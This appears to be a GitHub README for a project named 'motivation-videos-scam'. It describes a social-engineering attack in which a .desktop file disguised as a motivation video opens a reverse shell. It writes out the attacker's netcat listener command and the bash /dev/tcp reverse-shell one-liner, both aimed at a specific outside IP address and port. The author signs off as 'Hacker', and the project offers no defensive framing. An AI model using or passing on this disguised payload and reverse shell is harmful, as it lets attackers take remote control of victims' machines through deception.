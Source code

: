 # motivation-videos-scam
Scam attack that uses motivation videos to attract victims

## Getting started
- Clone the [repository](https://github.com/PatrickNiyogitare28/motivation-videos.git) 
- navigate to directory `motivation-videos-scam/videos`
- run `movitivation-video-0.mp4` (no effects)
- run `movitivation-video-1.desktop` (victim is hacked)

### How the scam works
- The hacker opens up a vpn port at `82.165.97.169` for the victim to connect via port 1350 
```bash
   $ nc -lnvp 1350 -s 82.165.97.169
```

 The victim downloads the motivation videos expecting to watch all the motivation videos.

 When the victim opens up the `motivation-video-1.desktop` accidentally or not accidentally the `.desktop` file will run a bash script which connects
 to vpn and the victim is hacked.

 The script to run in background is 
 ```bash
 $ /bin/bash -i > /dev/tcp/82.165.97.169/1350 0<&1 2>&1
 ```

 ### Hacker
 patrickniyogitare28@gmail.com

 ### LICENSE
 [MIT](https://github.com/PatrickNiyogitare28/motivation-videos-scam/blob/master/LICENSE)

